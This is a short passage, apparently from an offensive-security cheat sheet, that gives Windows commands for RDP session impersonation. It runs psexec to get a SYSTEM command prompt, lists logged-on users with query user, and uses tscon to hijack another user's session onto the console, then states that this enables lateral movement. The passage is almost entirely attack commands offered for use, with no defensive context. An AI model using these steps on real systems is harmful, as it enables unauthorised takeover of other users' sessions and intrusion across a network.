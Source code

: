 # RDP Session Impersonation

    psexec -s -i cmd

    query user

    cmd /k tscon ID /dest:console

### Now we can move laterally via RDP
